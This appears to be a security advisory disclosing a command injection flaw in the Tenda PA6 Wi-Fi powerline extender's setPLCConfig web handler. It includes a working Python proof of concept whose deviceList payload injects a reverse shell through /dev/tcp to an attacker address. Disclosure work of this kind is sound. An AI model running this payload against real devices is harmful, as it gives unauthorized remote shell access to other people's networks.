 # Tenda PA6(V1.0.1.21) Wi-Fi Powerline Extender has command injection vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tendacn.com/download/detail-3979.html

## Affected Version
V1.0.1.21
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `/goform/setPLCConfig` handler function of  `httpd`. The value of the `deviceList` parameter will be passed from `v37` to `v5`, finally to `v35`.
The value of the `v35` will be spliced ​​into the `homeplugctl remote_set....` and be excuted by `system` function, which allows an attacker to excute any command.

![code](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/goform/setPLCConfig"

payload = { 
    'deviceList': '";sh -i >& /dev/tcp/192.168.38.131/9001 0>&1#<FJT@BK>'
    }

requests.request("POST", url, data=payload)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.